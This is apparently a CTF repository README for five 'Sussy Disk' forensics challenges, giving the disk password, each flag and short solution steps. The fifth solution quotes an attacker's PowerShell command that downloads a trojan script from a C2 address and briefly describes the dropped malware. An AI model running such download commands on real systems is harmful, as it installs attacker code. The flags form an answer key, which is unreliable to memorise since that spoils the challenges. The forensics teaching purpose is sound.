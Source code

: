 # Sussy Disk 1

| Key            | Value                                                             |
|----------------|-------------------------------------------------------------------|
| Challenge Name | Sussy Disk 1                                                      |
| Author         | warlocksmurf                                                      |
| Category       | Forensics                                                         |
| Description    | The forensics team recently recovered a disk image from a compromised machine. Your job as an intern is to help uncover what the attacker had done to the compromised machine and what artifacts you can dig up for the final report. The attacker searched up some suspicious stuff on the Internet after infiltrating the machine, I wonder what was the attacker looking for?  |
| Hash           | 54A5322F5155CC8B850CA2C70AAD74B2BAE8AD0BB244F82CF79D5A64FED4F68C  |
| Password       | sunctfdisk                                                        |
| Challenge Type | Static                                                            |
| Flag           | sunctf{g00gle_the_g0at}                                           |
| Score          | ???                                                               |

*File(s) in `attachments/` are distributed to the participants.*

## Solution

<details>
<summary>Click to expand</summary>

1) Extract and analyze the Google History file.

![sol1](/sussydisk/docs/sol1.png)

</details>

# Sussy Disk 2

| Key            | Value                                                             |
|----------------|-------------------------------------------------------------------|
| Challenge Name | Sussy Disk 2                                                      |
| Author         | warlocksmurf                                                      |
| Category       | Forensics                                                         |
| Description    | The victim mentioned that one of his file was missing from the machine, the attacker might have deleted it.  |
| Hash           | 54A5322F5155CC8B850CA2C70AAD74B2BAE8AD0BB244F82CF79D5A64FED4F68C  |
| Password       | sunctfdisk                                                        |
| Challenge Type | Static                                                            |
| Flag           | sunctf{remember_your_handles}                                     |
| Score          | ???                                                               |

*File(s) in `attachments/` are distributed to the participants.*

## Solution

<details>
<summary>Click to expand</summary>

1) Analyze the Recycle Bin for the deleted flag.

![sol2](/sussydisk/docs/sol2.png)

</details>

# Sussy Disk 3

| Key            | Value                                                             |
|----------------|-------------------------------------------------------------------|
| Challenge Name | Sussy Disk 3                                                      |
| Author         | warlocksmurf                                                      |
| Category       | Forensics                                                         |
| Description    | The forensics team needs to know the answers of the backup questions created by the victim. Can you retrieve them? Format: sunctf{Ans1_Ans2_An3}  |
| Hash           | 54A5322F5155CC8B850CA2C70AAD74B2BAE8AD0BB244F82CF79D5A64FED4F68C  |
| Password       | sunctfdisk                                                        |
| Challenge Type | Static                                                            |
| Flag           | sunctf{Wowiee_SuperTsumu_Shen}                                    |
| Score          | ???                                                               |

*File(s) in `attachments/` are distributed to the participants.*

## Solution

<details>
<summary>Click to expand</summary>

1) Two ways: extract and analyze the SAM registry, or use tools from [Nirsoft](https://www.nirsoft.net/utils/security_questions_view.html) to automatically extract it.

![sol4](/sussydisk/docs/sol4.png)

</details>

# Sussy Disk 4

| Key            | Value                                                             |
|----------------|-------------------------------------------------------------------|
| Challenge Name | Sussy Disk 4                                                      |
| Author         | warlocksmurf                                                      |
| Category       | Forensics                                                         |
| Description    | The attacker attempted to access a confidential ZIP file stored in the machine somewhere. It is also known that the attacker is a fan of PowerShell.  |
| Hash           | 54A5322F5155CC8B850CA2C70AAD74B2BAE8AD0BB244F82CF79D5A64FED4F68C  |
| Password       | sunctfdisk                                                        |
| Challenge Type | Static                                                            |
| Flag           | sunctf{powershell_is_my_favourite_language}                       |
| Score          | ???                                                               |

*File(s) in `attachments/` are distributed to the participants.*

## Solution

<details>
<summary>Click to expand</summary>

1) A password-protected ZIP file can be obtained from the Documents folder. Since the question mentioned the attacker is a fan of Powershell, the password can be obtained there.

![sol3](/sussydisk/docs/sol3.png)

</details>

# Sussy Disk 5

| Key            | Value                                                             |
|----------------|-------------------------------------------------------------------|
| Challenge Name | Sussy Disk 5                                                      |
| Author         | warlocksmurf                                                      |
| Category       | Forensics                                                         |
| Description    | Finally, it is time to identify the malware and understand its functions. The flag has 3 parts.  |
| Hash           | 54A5322F5155CC8B850CA2C70AAD74B2BAE8AD0BB244F82CF79D5A64FED4F68C  |
| Password       | sunctfdisk                                                        |
| Challenge Type | Static                                                            |
| Flag           | sunctf{malware_analysis_is_not_that_hard}                         |
| Score          | ???                                                               |

*File(s) in `attachments/` are distributed to the participants.*

## Solution

<details>
<summary>Click to expand</summary>

1) The Powershell history will show that a malicious Powershell script is downloaded from a C2. Analyzing the powershell script, the first part of the flag can be identified.

`Invoke-WebRequest "http://192.168.1.73:8000/trojan.ps1" -OutFile C:\Users\warlocksmurf\Downloads\trojan.ps1`

![sol5](/sussydisk/docs/sol5.png)

2) The Powershell script also dropped a base64 encoded malware to the Pictures folder. Going to the folder, an encrypted image can be identified with the malware. Analyzing the malware, it encrypted the image with XOR 35 and placed the third part of the flag in Temp folder.

![sol6](/sussydisk/docs/sol6.png) 

![sol7](/sussydisk/docs/sol7.png)

3) The third part of the flag is a simple base64 and ROT13 encoded text.

![sol8](/sussydisk/docs/sol8.png)

</details>

